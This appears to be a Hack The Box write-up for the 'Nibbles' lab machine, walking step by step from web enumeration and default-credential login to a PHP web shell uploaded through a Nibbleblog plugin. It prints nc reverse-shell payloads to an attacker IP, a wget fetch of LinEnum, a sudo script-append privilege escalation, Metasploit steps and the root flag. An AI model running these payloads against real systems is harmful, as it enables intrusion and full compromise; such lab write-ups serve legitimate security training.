```yaml
---
layout: post
title: "Nibbles – Hack The Box"
categories: htb
date: 2025-07-12
---
```


## 🧠 Summary

Hack The Box's **Nibbles** is an easy Linux box that walks us through basic web enumeration, CMS exploitation, reverse shell upload via a plugin, and privilege escalation through misconfigured script execution rights.

---

## 🛠️ Tools Used

- Nmap
- WhatWeb
- Gobuster
- Curl
- LinEnum
- Netcat
- PHP Web Shell
- Python HTTP server

---

## 🖥️ Target Info

- IP: `10.129.249.115`
- OS: Linux (Ubuntu)
- Web: Apache 2.4.18
- CMS: Nibbleblog v4.0.3 (codename Coffee)

---

## 🚀 Steps to Root

### 1. Nmap Scan

```bash
nmap -sV -sC -p 80 --open 10.129.249.115
```
Apache found running on port 80.
📸 Screenshot 1: Nmap scan output

### 2. WhatWeb Scan
```bash
whatweb http://10.129.249.115
```
Identified Apache version and OS.
📸 Screenshot 2: WhatWeb output

### 3. Curl the Web Root
```bash
curl http://10.129.249.115
```
Found a suspicious comment:
```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
📸 Screenshot 3: HTML comment revealing /nibbleblog/

### 4. WhatWeb on /nibbleblog
```bash
whatweb http://10.129.249.115/nibbleblog
```
Reveals site is powered by Nibbleblog.
📸 Screenshot 4: WhatWeb shows Nibbleblog CMS

### 5. Directory Bruteforce with Gobuster
```bash
gobuster dir -u http://10.129.249.115/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
Discovered /admin, /content, /plugins, /README, and more.
📸 Screenshot 5: Gobuster results

### 6. Extract CMS Version from README
```bash
curl http://10.129.249.115/nibbleblog/README
```
Found Nibbleblog v4.0.3
📸 Screenshot 6: README showing version

### 7. Check users.xml File
```bash
curl -s http://10.129.249.115/nibbleblog/content/private/users.xml | xmllint --format -
```
Username found: admin
📸 Screenshot 7: Found username inside XML

### 8. Check config.xml for Metadata
```bash
curl -s http://10.129.249.115/nibbleblog/content/private/config.xml | xmllint --format -
```
Email fields and blog path information found.
📸 Screenshot 8 and 📸 Screenshot 9: Config values and admin email

### 9. Admin Login Page
Go to:
```bash
http://10.129.249.115/nibbleblog/admin.php
```
Try default creds:
```bash
Username: admin
Password: nibbles
```
📸 Screenshot 10: Login page
📸 Screenshot 11: Dashboard accessed

### 10. Upload Web Shell via Plugin
Go to: Plugins → My Image
Upload a shell like:
```php
<?php system('id'); ?>
```
📸 Screenshot 12: Shell file
📸 Screenshot 13: My Image plugin panel

### 11. Trigger Web Shell
Visit:
```bash
http://10.129.249.115/nibbleblog/content/private/plugins/my_image/image.php
```
You’ll get UID confirmation.
📸 Screenshot 14: Web shell output

### 12. Get a Reverse Shell
Use this payload:
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.76 9443 >/tmp/f"); ?>
```
Start listener:
```bash
nc -lvnp 9443
```
📸 Screenshot 15: Reverse shell payload
📸 Screenshot 16: Listener + user.txt flag

### 13. Post-Exploitation
Unzip personal.zip:
```bash
unzip personal.zip
```
### 📸 Screenshot 17: Archive extraction reveals monitor.sh

### 14. Transfer and Run LinEnum
On attacker:
```bash
sudo python3 -m http.server 8080 - make sure same dir as linenum
```
On target:
```bash
wget http://10.10.14.76:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
📸 Screenshot 18: Serving LinEnum
📸 Screenshot 19: LinEnum output

### 15. Privilege Escalation via monitor.sh
From LinEnum:
```text
(ALL) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Exploit:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.76 8443 >/tmp/f' >> /home/nibbler/personal/stuff/monitor.sh
nc -lvnp 8443
sudo /home/nibbler/personal/stuff/monitor.sh
```
📸 Screenshot 20: sudo rights
📸 Screenshot 21: Priv esc attempt
📸 Screenshot 22: Root shell via nc
📸 Screenshot 23: Final root.txt captured

### 🧨 Root Flag
```bash
cat /root/root.txt
```
```text
de5e5d6619862a8aa5b9b212314e0cdd
```
### ⚡ Metasploit Alternative (Optional)
If you want to skip manual steps:
```bash
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set RHOSTS 10.129.249.115
set RPORT 80
set TARGETURI /nibbleblog
set USERNAME admin
set PASSWORD nibbles
exploit
```
This gives you a meterpreter shell directly.

### 🏁 Conclusion
The Nibbles box reinforces how outdated CMS versions and weak plugin validation can lead to full system compromise. Enumeration, basic scripting, and privilege escalation misconfigs made this a solid beginner box.

